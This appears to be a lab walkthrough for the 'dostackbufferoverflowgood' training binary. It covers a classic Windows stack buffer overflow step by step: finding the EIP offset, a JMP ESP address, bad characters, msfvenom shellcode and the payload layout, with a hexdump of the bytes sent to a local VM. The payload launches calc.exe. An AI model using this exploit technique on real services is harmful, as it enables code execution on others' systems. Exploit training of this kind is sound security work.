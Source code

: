 # Dostackbufferoverflowgood
https://github.com/justinsteven/dostackbufferoverflowgood

## Solution
### 1. Set up exe in Windows VM
The IP address of the VM is 192.168.34.253.
![UI Screenshot](img/1.png)
Test out the program in Kali:
```bash
kali@kali:~$ nc 192.168.34.253 31337
test
Hello test!!!
test
Hello test!!!
test2
Hello test2!!!
exit
Bye!
```

### 2. Find EIP location
```bash
kali@kali:~$ python -c "from pwn import cyclic; print(cyclic(1000))" | nc 192.168.34.253 31337
```
Over on the debugger, it can be seen the application has crashed with an access violation on `0x616D6261`.
![UI Screenshot](img/2.png)
Next, get the offset using this address.
```bash
kali@kali:~$ python -c "from pwn import cyclic_find; print(cyclic_find(0x616D6261))"
146
```

### 3. Find JMP ESP instruction
This can be done a number of ways. A common way of doing it these days is using Immunity Debugger's mona plugin which can search for instructions in a debugged executable.  
Use `!mona modules` to ensure there is lacking protection on the binary being analysed.
```bash
0BADF00D   !mona modules

           ---------- Mona command started on 2020-11-09 17:24:27 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x70ee0000 | 0x70fc0000 | 0x000e0000 | True   | True    | True  |  True    | True   | 10.0.14393.2247 [ucrtbase.DLL] (C:\Windows\system32\ucrtbase.DLL)
0BADF00D    0x70e40000 | 0x70e44000 | 0x00004000 | True   | True    | True  |  True    | True   | 10.0.14393.2247 [api-ms-win-crt-convert-l1-1-0.dll] (C:\Windows\system32\api-ms-win-crt-convert-l1-1-0.dll)
0BADF00D    0x75440000 | 0x75515000 | 0x000d5000 | True   | True    | True  |  True    | True   | 6.1.7601.18015 [kernel32.dll] (C:\Windows\system32\kernel32.dll)
0BADF00D    0x76f30000 | 0x76fdc000 | 0x000ac000 | True   | True    | True  |  True    | True   | 7.0.7601.17744 [msvcrt.dll] (C:\Windows\system32\msvcrt.dll)
0BADF00D    0x08040000 | 0x08048000 | 0x00008000 | False  | True    | False |  False   | False  | -1.0- [dostackbufferoverflowgood.exe] (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
```
This shows that rebase and ASLR are false for the executable. Search for FFE4 (jmp esp) instructions with `!mona jmp -r esp -m dostackbufferoverflowgood.exe`:
```bash
0BADF00D   !mona jmp -r esp -m dostackbufferoverflowgood.exe

           ---------- Mona command started on 2020-11-09 17:39:24 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Only querying modules dostackbufferoverflowgood.exe
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 1 modules
0BADF00D       - Querying module dostackbufferoverflowgood.exe
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 2
0BADF00D   [+] Results :
080414C3     0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
080416BF     0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
0BADF00D       Found a total of 2 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.154000
```
Add `0x080414c3` as jmp_esp.

### 4. Identify bad characters
Here is an array of characters that can be tried with the application.
```python
chars += ""
chars += "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
The goal is to ensure any characters that stop this string being processed by the application are removed. This is an iterative process.
1. Send the entire string to the application
2. See if the entire string was copied into memory successfully by following ESP in dump
3. If not, remove the offending characters
4. Repeat.  
  
![UI Screenshot](img/3.png)
In this instance, there is 1 bad character, `0x0a`, which didn't make it into the dump.

### 5. Generate some shellcode
```bash
kali@kali:~/Desktop/dostack$ msfvenom --arch x86 --platform windows -p windows/exec CMD=calc.exe -b '\x0a' -f python > shellcode.py
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1078 bytes
```
Note: due to shikata ga nai encoding, the GetPC routine it uses will result in data being added near the top of the stack, which can affect instructions at ESP. A small NOP sled is added to account for this.  
The exploit is structured like so:
```
[PADDING * 146] + [JMP ESP] + [32 BYTE NOPSLED] + [CALC SHELLCODE]
```

### 6. Exploit the application
```bash
kali@kali:~/Desktop/dostack$ python exploit.py 
[+] Opening connection to 192.168.34.253 on port 31337: Done
[DEBUG] Sent 0x193 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000090  41 41 c3 14  04 08 90 90  90 90 90 90  90 90 90 90  │AA··│····│····│····│
    000000a0  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    000000b0  90 90 90 90  90 90 b8 29  31 fd dc db  d8 d9 74 24  │····│···)│1···│··t$│
    000000c0  f4 5a 2b c9  b1 31 31 42  13 83 ea fc  03 42 26 d3  │·Z+·│·11B│····│·B&·│
    000000d0  08 20 d0 91  f3 d9 20 f6  7a 3c 11 36  18 34 01 86  │· ··│·· ·│z<·6│·4··│
    000000e0  6a 18 ad 6d  3e 89 26 03  97 be 8f ae  c1 f1 10 82  │j··m│>·&·│····│····│
    000000f0  32 93 92 d9  66 73 ab 11  7b 72 ec 4c  76 26 a5 1b  │2···│fs··│{r·L│v&··│
    00000100  25 d7 c2 56  f6 5c 98 77  7e 80 68 79  af 17 e3 20  │%··V│·\·w│~·hy│··· │
    00000110  6f 99 20 59  26 81 25 64  f0 3a 9d 12  03 eb ec db  │o· Y│&·%d│·:··│····│
    00000120  a8 d2 c1 29  b0 13 e5 d1  c7 6d 16 6f  d0 a9 65 ab  │···)│····│·m·o│··e·│
    00000130  55 2a cd 38  cd 96 ec ed  88 5d e2 5a  de 3a e6 5d  │U*·8│····│·]·Z│·:·]│
    00000140  33 31 12 d5  b2 96 93 ad  90 32 f8 76  b8 63 a4 d9  │31··│····│·2·v│·c··│
    00000150  c5 74 07 85  63 fe a5 d2  19 5d a3 25  af db 81 26  │·t··│c···│·]·%│···&│
    00000160  af e3 b5 4e  9e 68 5a 08  1f bb 1f e6  55 e6 09 6f  │···N│·hZ·│····│U··o│
    00000170  30 72 08 f2  c3 a8 4e 0b  40 59 2e e8  58 28 2b b4  │0r··│··N·│@Y.·│X(+·│
    00000180  de c0 41 a5  8a e6 f6 c6  9e 84 99 54  42 65 3c dd  │··A·│····│···T│Be<·│
    00000190  e1 79 0a                                            │·y·│
    00000193
[*] Closed connection to 192.168.34.253 port 31337
```
This pops a calculator on the Windows VM.
![UI Screenshot](img/4.png)
